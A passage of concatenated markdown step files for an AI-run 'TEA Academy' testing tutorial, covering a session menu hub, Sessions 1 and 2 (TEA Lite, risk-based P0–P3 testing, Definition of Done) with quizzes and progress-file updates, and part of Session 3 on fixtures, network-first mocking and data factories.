#### Menu Handling Logic:

- IF 1: Load, read entire file, then execute {session01File}
- IF 2: Load, read entire file, then execute {session02File}
- IF 3: Load, read entire file, then execute {session03File}
- IF 4: Load, read entire file, then execute {session04File}
- IF 5: Load, read entire file, then execute {session05File}
- IF 6: Load, read entire file, then execute {session06File}
- IF 7: Load, read entire file, then execute {session07File}
- IF X: Display "Progress saved. See you next time! 👋" and END workflow
- IF Any other: "Please select a session number (1-7) or X to exit", then [Redisplay Menu Options](#4a-present-session-menu-options-sessions-remaining)

### 4b. Route to Completion (All Sessions Done)

**If all 7 sessions completed:**

Display:

"**Proceeding to generate your completion certificate...**"

Load, read entire file, then execute {completionFile}

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Progress file loaded correctly
- All 7 sessions displayed with accurate status indicators
- Completion percentage calculated correctly
- Session status matches progress file (✅ completed, 🔄 in-progress, ⬜ not-started)
- User selection validated (1-7 or X)
- Correct routing to selected session file
- Completion detected when all 7 done
- Exit option saves and ends workflow cleanly
- No stepsCompleted update (this is routing hub, not content step)

### ❌ SYSTEM FAILURE:

- Not loading progress file
- Wrong status indicators
- Incorrect completion percentage
- Not detecting when all sessions complete
- Routing to wrong session file
- Updating stepsCompleted (hub should not update this)
- Not displaying session descriptions
- Not allowing non-linear session selection

**Master Rule:** This is the central hub. Display accurate status, let learner choose freely, route correctly. All sessions return here.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-04-session-01.md`
```markdown
---
name: 'step-04-session-01'
description: 'Session 1: Quick Start - TEA Lite intro, run automate workflow (30 min)'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
sessionNotesTemplate: '../templates/session-notes-template.md'
sessionNotesFile: '{test_artifacts}/tea-academy/{user_name}/session-01-notes.md'
nextStepFile: './step-03-session-menu.md'
advancedElicitationTask: '{project-root}/_bmad/core/workflows/advanced-elicitation/workflow.xml'
partyModeWorkflow: '{project-root}/_bmad/core/workflows/party-mode/workflow.md'
---

# Step 4: Session 1 - Quick Start

## STEP GOAL:

To provide immediate value through a 30-minute introduction to TEA Lite, run the automate workflow as a hands-on example, validate understanding through a quiz, and generate session notes.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate _unsolicited_ content without user input (session flow content is allowed once session begins)
- 📖 CRITICAL: Read the complete step file before taking any action
- 🔄 CRITICAL: When loading next step with 'C', ensure entire file is read
- 📋 YOU ARE A FACILITATOR, not a content generator
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In your Agent communication style with the config `{communication_language}`

### Role Reinforcement:

- ✅ You are a Master Test Architect and Teaching Guide
- ✅ We engage in collaborative learning, not lectures
- ✅ You bring expertise in TEA methodology and teaching pedagogy
- ✅ Learner brings their role context, experience, and learning goals
- ✅ Together we build their testing knowledge progressively

### Step-Specific Rules:

- 🎯 Focus ONLY on Session 1 content (Quick Start)
- 🚫 FORBIDDEN to skip ahead to other sessions
- 💬 Approach: Teach concepts, provide examples, quiz understanding
- 🚪 Teaching is mostly autonomous, quiz is collaborative
- 📚 Reference TEA docs and provide URLs for further reading

## EXECUTION PROTOCOLS:

- 🎯 Load TEA docs just-in-time (not all at once)
- 💾 Generate session notes after completion
- 📖 Update progress file with session completion and score
- 🚫 FORBIDDEN to skip quiz - validates understanding
- ⏭️ Always return to session menu hub after completion

## CONTEXT BOUNDARIES:

- Available context: Progress file with user role/experience
- Focus: Session 1 - TEA Lite introduction
- Limits: Only Session 1 content, don't preview other sessions
- Dependencies: Progress file exists with assessment data

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise unless user explicitly requests a change.

### 1. Session Welcome

Display:

"🧪 **Session 1: Quick Start** (30 minutes)

**Objective:** Get immediate value by seeing TEA in action

**What you'll learn:**

- What is TEA and why it exists
- TEA Lite quick start approach
- How to run your first TEA workflow (Automate)
- TEA engagement models

Let's get started!"

### 2. Update Progress File (Session Started)

Load {progressFile} and update session-01-quickstart:

- Set `status: 'in-progress'`
- Set `started_date: {current_date}`

Save the updated progress file.

### 3. Teaching: What is TEA?

Present this content (mostly autonomous, clear and educational):

"### 📖 What is TEA (Test Architecture Enterprise)?

TEA is a comprehensive test architecture framework that provides:

- **9 Workflows:** Teach Me Testing, Framework, Test Design, ATDD, Automate, Test Review, Trace, NFR Assessment, CI
- **35 Knowledge Fragments:** Distilled expertise on patterns, best practices, Playwright Utils
- **Quality Standards:** Definition of Done with execution limits (no flaky tests, no hard waits, etc.)
- **Risk-Based Testing:** P0-P3 matrix for prioritizing test coverage

**Why TEA exists:**
Testing knowledge doesn't scale through manual teaching. TEA makes testing expertise accessible through:

- Structured workflows that guide you step-by-step
- Documentation (32 docs) organized by type (tutorials, how-to, explanation, reference)
- Knowledge fragments for just-in-time learning
- Online resources: <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/>

**TEA Engagement Models:**

1. **TEA Lite (30 min):** Quick start - run Automate workflow, generate tests
2. **TEA Solo:** Use workflows individually as needed
3. **TEA Integrated:** Full lifecycle - Framework → Test Design → ATDD/Automate → Review → Trace
4. **TEA Enterprise:** Add NFR Assessment + CI integration for compliance
5. **TEA Brownfield:** Adapt TEA for existing test suites

**Today we're experiencing TEA Lite!**"

### 4. Teaching: TEA Lite Quick Start

Present this content (adapt examples based on user role from progress file):

"### 🚀 TEA Lite: Your First Workflow

The **Automate workflow** generates tests for your application automatically.

**How it works:**

1. You describe what needs testing
2. TEA analyzes your app structure
3. Workflow generates test files with TEA best practices
4. You review and run the tests

{If role == QA:}
**For QA Engineers:** This helps you quickly expand test coverage without writing every test manually. Focus on test design, let TEA handle boilerplate.

{If role == Dev:}
**For Developers:** This generates tests following best practices so you can focus on implementation. Tests are maintainable and follow fixture patterns.

{If role == Lead:}
**For Tech Leads:** This standardizes test architecture across your team. Everyone writes tests the same way using TEA patterns.

{If role == VP:}
**For VPs:** This scales testing across teams without manual training. New hires can generate quality tests from day one.

**Let me show you how the Automate workflow works conceptually:**

1. **Input:** You provide targets (features/pages to test)
2. **TEA analyzes:** Understands your app structure
3. **Test generation:** Creates API and/or E2E tests
4. **Output:** Test files in your test suite with proper fixtures

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-automate/>

**Note:** We won't actually run the workflow now (you can do that on your project later), but you understand the concept."

### 5. Teaching: Key Concepts

Present this content:

"### 🎯 Key Concepts from Session 1

**1. TEA is a framework:** Not just docs, but executable workflows that guide you

**2. Risk-based testing:** Prioritize what matters (P0 critical, P3 nice-to-have)

**3. Quality standards:** Definition of Done ensures reliable tests

- No flaky tests
- No hard waits/sleeps
- Stateless & parallelizable
- Self-cleaning tests

**4. Engagement models:** Choose how much TEA you need (Lite → Solo → Integrated → Enterprise → Brownfield)

**5. Knowledge fragments:** 42 fragments for deep-dive topics when you need them

- Testing patterns (fixtures, network-first, data factories)
- Playwright Utils (api-request, network-recorder, recurse)
- Configuration & governance (CI, feature flags, risk)

**You've now experienced TEA Lite! In future sessions, we'll go deeper.**"

### 6. Quiz: Validate Understanding

Display:

"### ✅ Quick Knowledge Check

Let me ask you 3 questions to validate your understanding. Passing score: ≥70% (2 of 3 correct)."

**Question 1:**

"**Question 1 of 3:**

What is the primary purpose of TEA?

A) Replace all testing tools with a single framework
B) Make testing expertise accessible through structured workflows and knowledge
C) Automate 100% of test writing
D) Only works for Playwright tests

Your answer (A, B, C, or D):"

**Wait for response. Validate:**

- Correct answer: B
- If correct: "✅ Correct! TEA makes testing expertise accessible and scalable."
- If incorrect: "❌ Not quite. TEA's purpose is to make testing expertise accessible through structured workflows and knowledge (B). It's not about replacing tools or automating everything."

**Store result (1 point if correct, 0 if incorrect)**

**Question 2:**

"**Question 2 of 3:**

What does the P0-P3 risk matrix help with?

A) Prioritizing test coverage based on criticality
B) Grading test code quality
C) Measuring test execution speed
D) Tracking bug severity

Your answer (A, B, C, or D):"

**Wait for response. Validate:**

- Correct answer: A
- If correct: "✅ Correct! P0-P3 helps prioritize what to test based on risk and criticality."
- If incorrect: "❌ The P0-P3 matrix is about prioritizing test coverage (A). P0 = critical features like login, P3 = nice-to-have like tooltips."

**Store result**

**Question 3:**

"**Question 3 of 3:**

Which TEA engagement model is best for quick value in 30 minutes?

A) TEA Enterprise
B) TEA Lite
C) TEA Integrated
D) TEA Brownfield

Your answer (A, B, C, or D):"

**Wait for response. Validate:**

- Correct answer: B
- If correct: "✅ Correct! TEA Lite is the 30-minute quick start approach."
- If incorrect: "❌ TEA Lite (B) is the quick start approach. Enterprise and Integrated are more comprehensive."

**Store result**

**Calculate score:**

- Total points / 3 \* 100 = score (0-100)

**Display results:**

"**Quiz Results:** {score}/100

{If score >= 70:}
✅ **Passed!** You've demonstrated understanding of Session 1 concepts.

{If score < 70:}
⚠️ **Below passing threshold.** Would you like to:

- **[R]** Review the content again
- **[C]** Continue anyway (your score will be recorded)

{Wait for response if < 70, handle R or C}"

### 7. Generate Session Notes

Create {sessionNotesFile} using {sessionNotesTemplate} with:

```markdown
---
session_id: session-01-quickstart
session_name: 'Session 1: Quick Start'
user: { user_name }
role: { role }
completed_date: { current_date }
score: { score }
duration: '30 min'
---

# Session 1: Quick Start - Session Notes

**Learner:** {user_name} ({role})
**Completed:** {current_date}
**Score:** {score}/100
**Duration:** 30 min

---

## Session Objectives

- Understand what TEA is and why it exists
- Learn TEA Lite quick start approach
- Conceptually understand the Automate workflow
- Explore TEA engagement models

---

## Key Concepts Covered

1. **TEA Framework:** 9 workflows + 42 knowledge fragments + quality standards
2. **Risk-Based Testing:** P0-P3 prioritization matrix
3. **Quality Standards:** Definition of Done (no flaky tests, no hard waits, stateless, self-cleaning)
4. **Engagement Models:** Lite, Solo, Integrated, Enterprise, Brownfield
5. **Automate Workflow:** Generates tests automatically with TEA best practices

---

## TEA Resources Referenced

### Documentation

- TEA Overview: https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/tea-overview/
- TEA Lite Quickstart: https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/tutorials/tea-lite-quickstart/
- Automate Workflow: https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-automate/

### Knowledge Fragments

- (None used in this session - knowledge fragments explored in Session 7)

### Online Resources

- TEA Website: https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/
- Knowledge Base: https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/reference/knowledge-base/

---

## Quiz Results

**Score:** {score}/100

### Questions & Answers

1. What is the primary purpose of TEA? → {user_answer} ({correct/incorrect})
2. What does the P0-P3 risk matrix help with? → {user_answer} ({correct/incorrect})
3. Which TEA engagement model is best for quick value? → {user_answer} ({correct/incorrect})

---

## Key Takeaways

- TEA makes testing expertise accessible at scale
- Start with TEA Lite (30 min) for immediate value
- Risk-based testing prioritizes what matters (P0 critical features first)
- Quality standards ensure reliable, maintainable tests
- 5 engagement models let you choose the right level of TEA adoption

---

## Next Recommended Session

{If experience_level == 'beginner':}
**Session 2: Core Concepts** - Learn testing fundamentals and TEA principles

{If experience_level == 'intermediate':}
**Session 2 or 3** - Review concepts or dive into architecture patterns

{If experience_level == 'experienced':}
**Session 7: Advanced Patterns** - Explore 42 knowledge fragments

---

**Generated by:** TEA Academy - Teach Me Testing Workflow
**Session Path:** Session 1 of 7
```

### 8. Update Progress File (Session Complete)

Load {progressFile} and update session-01-quickstart:

- Set `status: 'completed'`
- Set `completed_date: {current_date}`
- Set `score: {score}`
- Set `notes_artifact: '{sessionNotesFile}'`

Update progress metrics:

- If previous status for `session-01-quickstart` is not `completed`, increment `sessions_completed` by 1 (otherwise leave unchanged)
- Calculate `completion_percentage: (sessions_completed / 7) * 100`
- Set `next_recommended: 'session-02-concepts'`

Update stepsCompleted array:

- Append 'step-04-session-01' to stepsCompleted array
- Update lastStep: 'step-04-session-01'

Save the updated progress file.

### 9. Session Complete Message

Display:

"🎉 **Session 1 Complete!**

**Your Score:** {score}/100

**Session notes saved:** {sessionNotesFile}

You've completed your first step in TEA Academy! You now understand what TEA is, how TEA Lite works, and the different engagement models.

**Next:** You'll return to the session menu where you can choose Session 2 or explore any other session.

**Progress:** {completion_percentage}% complete ({sessions_completed} of 7 sessions)"

### 10. Present MENU OPTIONS

Display: **Select an Option:** [A] Advanced Elicitation [P] Party Mode [C] Continue to Session Menu

#### EXECUTION RULES:

- ALWAYS halt and wait for user input after presenting menu
- ONLY proceed to session menu when user selects 'C'
- After other menu items execution, return to this menu

#### Menu Handling Logic:

- IF A: Execute {advancedElicitationTask}, and when finished redisplay the menu
- IF P: Execute {partyModeWorkflow}, and when finished redisplay the menu
- IF C: Progress file already updated in step 8, then load, read entire file, then execute {nextStepFile}
- IF Any other: help user, then [Redisplay Menu Options](#10-present-menu-options)

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Teaching content presented clearly
- Examples adapted to user role
- Quiz administered with 3 questions
- Score calculated correctly (0-100)
- Session notes generated with all required sections
- Progress file updated (status: completed, score, notes_artifact)
- stepsCompleted array updated with 'step-04-session-01'
- Completion percentage recalculated
- Next recommended session set
- User routed back to session menu hub

### ❌ SYSTEM FAILURE:

- Skipping quiz
- Not adapting examples to user role
- Not generating session notes
- Not updating progress file
- Not updating stepsCompleted array
- Not calculating completion percentage
- Not routing back to hub
- Loading all docs at once (should be just-in-time)

**Master Rule:** Teach, quiz, generate notes, update progress, return to hub. This pattern repeats for all 7 sessions.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-04-session-02.md`
```markdown
---
name: 'step-04-session-02'
description: 'Session 2: Core Concepts - Risk-based testing, DoD, testing philosophy (45 min)'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
sessionNotesTemplate: '../templates/session-notes-template.md'
sessionNotesFile: '{test_artifacts}/tea-academy/{user_name}/session-02-notes.md'
nextStepFile: './step-03-session-menu.md'
advancedElicitationTask: '{project-root}/_bmad/core/workflows/advanced-elicitation/workflow.xml'
partyModeWorkflow: '{project-root}/_bmad/core/workflows/party-mode/workflow.md'
---

# Step 4: Session 2 - Core Concepts

## STEP GOAL:

To teach testing fundamentals including risk-based testing, TEA quality standards (Definition of Done), and testing as engineering philosophy in a 45-minute session.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read the complete step file before taking any action
- 🔄 CRITICAL: When loading next step with 'C', ensure entire file is read
- 📋 YOU ARE A FACILITATOR, not a content generator
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In your Agent communication style with the config `{communication_language}`

### Role Reinforcement:

- ✅ You are a Master Test Architect and Teaching Guide
- ✅ We engage in collaborative learning, not lectures
- ✅ You bring expertise in TEA methodology and teaching pedagogy
- ✅ Learner brings their role context, experience, and learning goals
- ✅ Together we build their testing knowledge progressively

### Step-Specific Rules:

- 🎯 Focus ONLY on Session 2 content (Core Concepts)
- 🚫 FORBIDDEN to skip ahead to other sessions
- 💬 Approach: Teach fundamentals, provide examples, quiz understanding
- 🚪 Teaching is mostly autonomous, quiz is collaborative
- 📚 Reference TEA docs and knowledge fragments

## EXECUTION PROTOCOLS:

- 🎯 Load TEA docs just-in-time
- 💾 Generate session notes after completion
- 📖 Update progress file with session completion and score
- 🚫 FORBIDDEN to skip quiz - validates understanding
- ⏭️ Always return to session menu hub after completion

## CONTEXT BOUNDARIES:

- Available context: Progress file with user role/experience
- Focus: Session 2 - Testing fundamentals and TEA principles
- Limits: Only Session 2 content
- Dependencies: Progress file exists with assessment data

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise unless user explicitly requests a change.

### 1. Session Welcome

Display:

"🧪 **Session 2: Core Concepts** (45 minutes)

**Objective:** Understand WHY behind TEA principles

**What you'll learn:**

- Testing as Engineering philosophy
- Risk-based testing with P0-P3 matrix
- TEA Definition of Done (quality standards)
- Probability × Impact risk scoring

Let's dive into the fundamentals!"

### 2. Update Progress File (Session Started)

Load {progressFile} and update session-02-concepts:

- Set `status: 'in-progress'`
- Set `started_date: {current_date}`

Save the updated progress file.

### 3. Teaching: Testing as Engineering

Present this content:

"### 🏗️ Testing as Engineering

**Core Philosophy:** Testing is not an afterthought - it's engineering.

**What this means:**

- Tests are **designed** before they're written (like architecture before coding)
- Tests have **quality standards** (not just "does it run?")
- Tests are **maintained** like production code
- Testing decisions are **risk-based** (prioritize what matters)

{If role == QA:}
**For QA Engineers:** You're not just finding bugs - you're engineering test systems that scale. Design before write, maintain like production code.

{If role == Dev:}
**For Developers:** Think of tests like you think of production code. Design patterns, refactoring, DRY principles - they all apply to tests.

{If role == Lead:}
**For Tech Leads:** Testing as engineering means architecture decisions: fixture patterns, data strategies, CI orchestration. Not just "write more tests."

{If role == VP:}
**For VPs:** Testing is an engineering discipline requiring investment in tooling, architecture, and knowledge. Not a checklist item.

**Key Principle:** If you wouldn't accept sloppy production code, don't accept sloppy test code.

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/testing-as-engineering/>"

### 4. Teaching: Risk-Based Testing

Present this content:

"### ⚖️ Risk-Based Testing: The P0-P3 Matrix

**Problem:** You can't test everything. How do you prioritize?

**Solution:** Risk = Probability × Impact

**The P0-P3 Matrix:**

**P0 - Critical (Must Test)**

- Login/Authentication
- Payment processing
- Data loss scenarios
- Security vulnerabilities
- **Impact:** Business fails if broken
- **Probability:** High usage, high complexity

**P1 - High (Should Test)**

- Core user workflows
- Key features
- Data integrity
- **Impact:** Major user pain
- **Probability:** Frequent usage

**P2 - Medium (Nice to Test)**

- Secondary features
- Edge cases with workarounds
- **Impact:** Inconvenience
- **Probability:** Moderate usage

**P3 - Low (Optional)**

- Tooltips, help text
- Nice-to-have features
- Aesthetic issues
- **Impact:** Minimal
- **Probability:** Low usage

{If role == QA:}
**For QA Engineers:** Use P0-P3 to defend test coverage decisions. "We have 100% P0 coverage, 80% P1" is better than "we have 50% coverage overall."

{If role == Dev:}
**For Developers:** When writing tests, ask "Is this P0 login or P3 tooltip?" Focus your time accordingly.

{If role == Lead:}
**For Tech Leads:** P0-P3 helps allocate test automation budget. Mandate P0/P1 automation, P2/P3 is cost-benefit analysis.

{If role == VP:}
**For VPs:** Risk-based testing aligns engineering effort with business impact. Metrics that matter: P0 coverage, not lines of code.

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/risk-based-testing/>

**Knowledge Fragment:** probability-impact.md defines scoring criteria"

### 5. Teaching: Definition of Done (Quality Standards)

Present this content:

"### ✅ TEA Definition of Done: Quality Standards

**The Problem:** "The tests pass" isn't enough. What about quality?

**TEA Definition of Done ensures:**

**1. No Flaky Tests**

- Tests pass/fail deterministically
- No "run it again, it'll work" tests
- Use explicit waits, not hard sleeps
- Handle async properly

**2. No Hard Waits/Sleeps**

- Use `waitFor` conditions, not `sleep(5000)`
- React to state changes, don't guess timing
- Tests complete when ready, not after arbitrary delays

**3. Stateless & Parallelizable**

- Tests run independently, any order
- No shared state between tests
- Can run in parallel (fast feedback)
- Use cron jobs/semaphores only when unavoidable

**4. No Order Dependency**

- Every `it`/`describe`/`context` block works in isolation
- Supports `.only` execution for debugging
- Tests don't depend on previous tests

**5. Self-Cleaning Tests**

- Test sets up its own data
- Test automatically deletes/deactivates entities created
- No manual cleanup required

**6. Tests Live Near Source Code**

- Co-locate test files with code they validate
- `component.tsx` → `component.spec.tsx` in same folder

**7. Low Maintenance**

- Minimize manual upkeep
- Avoid brittle selectors
- Use APIs to set up state, not UI clicks
- Don't repeat UI actions

{If role == QA:}
**For QA Engineers:** These standards prevent the "test maintenance nightmare." Upfront investment in quality = long-term stability.

{If role == Dev:}
**For Developers:** Write tests you'd want to inherit. No flaky tests, no "run twice" culture, no mystery failures.

{If role == Lead:}
**For Tech Leads:** Enforce these standards in code review. Flaky test PRs don't merge. Period.

{If role == VP:}
**For VPs:** Definition of Done isn't perfectionism - it's engineering rigor. Flaky tests erode trust in CI/CD.

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/test-quality-standards/>

**Knowledge Fragment:** test-quality.md has execution limits and criteria"

### 6. Teaching: Key Takeaways

Present this content:

"### 🎯 Session 2 Key Takeaways

**1. Testing is Engineering**

- Design before write
- Maintain like production code
- Apply engineering principles

**2. Risk-Based Testing**

- P0 = Critical (login, payment)
- P1 = High (core workflows)
- P2 = Medium (secondary features)
- P3 = Low (tooltips, nice-to-have)
- Prioritize based on Probability × Impact

**3. Definition of Done**

- No flaky tests (deterministic)
- No hard waits (use waitFor)
- Stateless & parallelizable
- Self-cleaning tests
- Low maintenance

**4. Quality Standards = Engineering Rigor**

- Not perfectionism, but reliability
- Prevents test maintenance nightmares
- Builds trust in CI/CD

**You now understand the WHY behind TEA principles!**"

### 7. Quiz: Validate Understanding

Display:

"### ✅ Knowledge Check

3 questions to validate your understanding. Passing: ≥70% (2 of 3 correct)."

**Question 1:**

"**Question 1 of 3:**

In the P0-P3 matrix, what priority level should login/authentication have?

A) P3 - Low priority
B) P2 - Medium priority
C) P1 - High priority
D) P0 - Critical priority

Your answer (A, B, C, or D):"

**Wait for response. Validate:**

- Correct answer: D
- If correct: "✅ Correct! Login/authentication is P0 - critical. Business fails if broken."
- If incorrect: "❌ Login/authentication is P0 - Critical (D). It's high usage, high impact, and business-critical."

**Store result**

**Question 2:**

"**Question 2 of 3:**

What is the problem with using `sleep(5000)` instead of `waitFor` conditions?

A) It makes tests slower
B) It's a hard wait that doesn't react to state changes (violates DoD)
C) It uses too much memory
D) It's not supported in modern frameworks

Your answer (A, B, C, or D):"

**Wait for response. Validate:**

- Correct answer: B
- If correct: "✅ Correct! Hard waits don't react to state - they guess timing. Use `waitFor` to react to conditions."
- If incorrect: "❌ The issue is that hard waits don't react to state changes (B). They guess timing instead of waiting for conditions. This violates TEA Definition of Done."

**Store result**

**Question 3:**

"**Question 3 of 3:**

What does "self-cleaning tests" mean in TEA Definition of Done?

A) Tests automatically fix their own bugs
B) Tests delete/deactivate entities they create during testing
C) Tests run faster by cleaning up code
D) Tests remove old test files

Your answer (A, B, C, or D):"

**Wait for response. Validate:**

- Correct answer: B
- If correct: "✅ Correct! Self-cleaning tests clean up their data - no manual cleanup needed."
- If incorrect: "❌ Self-cleaning means tests delete/deactivate entities they created (B). No manual cleanup required."

**Store result**

**Calculate score:**

- Total points / 3 \* 100 = score (0-100)

**Display results:**

"**Quiz Results:** {score}/100

{If score >= 70:}
✅ **Passed!** You understand core testing concepts.

{If score < 70:}
⚠️ **Below passing.** Would you like to:

- **[R]** Review the content again
- **[C]** Continue anyway (score will be recorded)

{Wait for response if < 70, handle R or C}"

### 8. Generate Session Notes

Create {sessionNotesFile} using {sessionNotesTemplate} with session-02 content including:

- Teaching topics covered
- TEA docs referenced
- Knowledge fragments referenced (test-quality.md, probability-impact.md)
- Quiz results
- Key takeaways
- Next recommended session based on experience level

### 9. Update Progress File (Session Complete)

Load {progressFile} and update session-02-concepts:

- Set `status: 'completed'`
- Set `completed_date: {current_date}`
- Set `score: {score}`
- Set `notes_artifact: '{sessionNotesFile}'`

Update progress metrics:

- Increment `sessions_completed` by 1
- Calculate `completion_percentage`
- Set `next_recommended: 'session-03-architecture'`

Update stepsCompleted array:

- Append 'step-04-session-02'
- Update lastStep

Save the updated progress file.

### 10. Session Complete Message

Display:

"🎉 **Session 2 Complete!**

**Your Score:** {score}/100

**Session notes saved:** {sessionNotesFile}

You now understand:

- Testing as engineering philosophy
- Risk-based testing (P0-P3 matrix)
- TEA Definition of Done
- Why quality standards matter

**Next:** Session 3 (Architecture & Patterns) or explore any session from the menu.

**Progress:** {completion_percentage}% complete ({sessions_completed} of 7 sessions)"

### 11. Present MENU OPTIONS

Display: **Select an Option:** [A] Advanced Elicitation [P] Party Mode [C] Continue to Session Menu

#### Menu Handling Logic:

- IF A: Execute {advancedElicitationTask}, and when finished redisplay the menu
- IF P: Execute {partyModeWorkflow}, and when finished redisplay the menu
- IF C: Progress file already updated, then load, read entire file, then execute {nextStepFile}
- IF Any other: help user, then redisplay menu

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Teaching content presented (Testing as Engineering, Risk-based, DoD)
- Examples adapted to user role
- Quiz administered (3 questions)
- Score calculated correctly
- Session notes generated
- Progress file updated
- stepsCompleted array updated
- User routed back to hub

### ❌ SYSTEM FAILURE:

- Skipping quiz
- Not adapting to role
- Not generating notes
- Not updating progress
- Not routing to hub

**Master Rule:** Teach, quiz, generate notes, update progress, return to hub.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-04-session-03.md`
```markdown
---
name: 'step-04-session-03'
description: 'Session 3: Architecture & Patterns - Fixtures, network patterns, framework setup (60 min)'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
sessionNotesTemplate: '../templates/session-notes-template.md'
sessionNotesFile: '{test_artifacts}/tea-academy/{user_name}/session-03-notes.md'
nextStepFile: './step-03-session-menu.md'
advancedElicitationTask: '{project-root}/_bmad/core/workflows/advanced-elicitation/workflow.xml'
partyModeWorkflow: '{project-root}/_bmad/core/workflows/party-mode/workflow.md'
---

# Step 4: Session 3 - Architecture & Patterns

## STEP GOAL:

To teach TEA architecture patterns including fixture composition, network-first patterns, and step-file architecture in a 60-minute session.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read the complete step file before taking any action
- 🔄 CRITICAL: When loading next step with 'C', ensure entire file is read
- 📋 YOU ARE A FACILITATOR, not a content generator
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In your Agent communication style with the config `{communication_language}`

### Role Reinforcement:

- ✅ You are a Master Test Architect and Teaching Guide
- ✅ We engage in collaborative learning, not lectures
- ✅ You bring expertise in TEA methodology and teaching pedagogy
- ✅ Learner brings their role context, experience, and learning goals

### Step-Specific Rules:

- 🎯 Focus ONLY on Session 3 content (Architecture & Patterns)
- 🚫 FORBIDDEN to skip ahead to other sessions
- 💬 Approach: Teach patterns, provide examples, quiz understanding

## EXECUTION PROTOCOLS:

- 🎯 Load TEA docs just-in-time
- 💾 Generate session notes after completion
- 📖 Update progress file with session completion and score
- ⏭️ Return to session menu hub after completion

## CONTEXT BOUNDARIES:

- Available context: Progress file with user role/experience
- Focus: Session 3 - Architecture patterns
- Dependencies: Progress file exists

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Session Welcome

"🧪 **Session 3: Architecture & Patterns** (60 minutes)

**Objective:** Understand TEA patterns and architecture

**What you'll learn:**

- Fixture architecture and composition
- Network-first patterns
- Data factories and test setup
- Step-file architecture (the pattern this workflow uses!)

Let's explore TEA architecture!"

### 2. Update Progress (Started)

Load {progressFile}, update session-03-architecture:

- `status: 'in-progress'`
- `started_date: {current_date}`

### 3. Teaching: Fixture Architecture

"### 🏗️ Fixture Architecture

**The Problem:** Tests have setup/teardown boilerplate everywhere.

**TEA Solution:** Composable fixtures

**Fixture Composition Pattern:**

```typescript
// Base fixtures
const baseFixtures = {
  page: async ({}, use) => {
    /* ... */
  },
};

// Composed fixtures
const authFixtures = {
  authenticatedPage: async ({ page }, use) => {
    await page.goto('/login');
    await login(page);
    await use(page);
  },
};

// Merge and use
test.use(mergeTests(baseFixtures, authFixtures));
```

**Benefits:**

- DRY: Define once, use everywhere
- Composable: Build complex fixtures from simple ones
- Automatic cleanup: Fixtures handle teardown
- Type-safe: Full TypeScript support

{Role-adapted example based on user role}

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/fixture-architecture/>
**Knowledge Fragment:** fixture-architecture.md, fixtures-composition.md"

### 4. Teaching: Network-First Patterns

"### 🌐 Network-First Patterns

**The Problem:** Flaky tests due to network timing issues.

**TEA Solution:** Intercept and control network

**Network-First Pattern:**

```typescript
// BEFORE the action, set up network interception
await page.route('/api/users', (route) => {
  route.fulfill({ json: mockUsers });
});

// THEN trigger the action
await page.click('Load Users');

// Network is already mocked - no race condition
```

**Why Network-First:**

- Prevents race conditions
- Deterministic test behavior
- Fast (no real API calls)
- Control error scenarios

{Role-adapted example}

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/network-first-patterns/>
**Knowledge Fragment:** network-first.md, intercept-network-call.md"

### 5. Teaching: Data Factories

"### 🏭 Data Factories

**The Problem:** Hard-coded test data everywhere.

**TEA Solution:** Factory functions

**Factory Pattern:**

```typescript
function createUser(overrides = {}) {
  return {
    id: faker.uuid(),
    email: faker.email(),
    role: 'user',
    ...overrides,
  };
}

// Use in tests
const admin = createUser({ role: 'admin' });
const user = createUser(); // defaults
```

**Benefits:**

- No hardcoded data
- Easy to override fields
- Consistent test data
- Self-documenting

{Role-adapted example}

**Knowledge Fragment:** data-factories.md"

### 6. Teaching: Step-File Architecture

"### 📋 Step-File Architecture

**This workflow uses step-file architecture!**

**Pattern:**

- Micro-file design: Each step is self-contained
- Just-in-time loading: Only current step in memory
- Sequential enforcement: No skipping steps
- State tracking: Progress saved between steps

**Why:**

- Disciplined execution
- Clear progression
- Resumable (continuable workflows)
- Maintainable (one file per step)

**You're experiencing this right now:** Each session is a step file!

**Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/step-file-architecture/>"

### 7. Quiz (3 questions)

"### ✅ Knowledge Check"

**Q1:** "What is the main benefit of fixture composition?
A) Faster test execution
B) DRY - define once, reuse everywhere
C) Better error messages
D) Automatic screenshot capture"

Correct: B

**Q2:** "Why is 'network-first' better than mocking after the action?
A) It's faster
